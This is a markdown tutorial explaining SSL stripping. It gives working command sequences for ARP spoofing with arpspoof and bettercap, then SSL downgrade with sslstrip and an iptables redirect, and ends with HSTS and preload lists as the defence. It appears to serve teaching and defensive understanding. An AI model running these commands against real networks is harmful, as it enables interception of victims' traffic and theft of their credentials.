

**SSL stripping** is a downgrade attack that forces a victim to communicate over plain HTTP instead of HTTPS. The attacker sits in a MitM position between the victim and the server, intercepting the HTTPS redirect the server sends and replacing it with an unencrypted HTTP connection toward the victim, while maintaining their own HTTPS connection to the server.



The server believes it is communicating securely, since its connection to the attacker is HTTPS. The victim, however, is on plain HTTP and never knows the difference unless they actively check the address bar.

---

## Obtaining a MitM Position via ARP Spoofing

Before SSL stripping can happen, the attacker must intercept traffic. ARP spoofing is the standard technique in local networks: the attacker poisons the victim's ARP cache to redirect traffic through their own machine.

Enable IP forwarding first so traffic is not simply dropped:

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

Then poison both directions using `arpspoof` from the `dsniff` package:

```bash
sudo apt install dsniff

sudo arpspoof -i eth0 -t 192.168.1.10 192.168.1.1   # tell victim we are the gateway
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.10   # tell gateway we are the victim
```

Verify the victim's ARP cache has been poisoned:

```bash
arp -n
```

```
Address          HWtype  HWaddress           Flags  Iface
192.168.1.1      ether   aa:bb:cc:dd:ee:ff   C      eth0   <- attacker's MAC
```

Alternatively, use `bettercap` for a more automated approach:

```bash
docker run -it bettercap/bettercap
```

```
set arp.spoof.targets 192.168.1.10
set arp.spoof.internal true
arp.spoof on
```

Bettercap automatically restores the victim's ARP cache when the attack is stopped with `arp.spoof off`.

---

## Executing the SSL Strip

With MitM position established, use `bettercap`'s built-in SSL stripping module:

```bash
set net.sniff.verbose true
net.sniff on
http.proxy on
```

Or use the classic `sslstrip` tool:

```bash
sslstrip -l 8080
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
```

The tool intercepts HTTP traffic on port 8080, rewrites any HTTPS links in responses back to HTTP, and proxies the actual HTTPS requests to the server on behalf of the victim. All credentials or sensitive data the victim submits over the downgraded connection are visible in plaintext.

---

## HSTS as the Primary Defense

The `Strict-Transport-Security` header instructs the browser to always use HTTPS for the site, even if the user types plain HTTP. Once the browser has seen the header, it refuses HTTP connections entirely for the duration of `max-age`:

```http
HTTP/2 200 OK
Strict-Transport-Security: max-age=31536000; includeSubDomains
```

|Directive|Effect|
|---|---|
|`max-age=N`|Browser enforces HTTPS for N seconds after first visit|
|`includeSubDomains`|Applies HTTPS enforcement to all subdomains|
|`preload`|Submits the domain to browser preload lists|

HSTS has one significant gap: it offers no protection on the first visit to a site, since the browser has not yet received the header and may send the initial request over HTTP. The HSTS Preload Service (maintained by Google and consumed by Chrome, Firefox, and others) addresses this by hardcoding a list of domains that must always use HTTPS, even on the very first connection, without relying on a prior visit.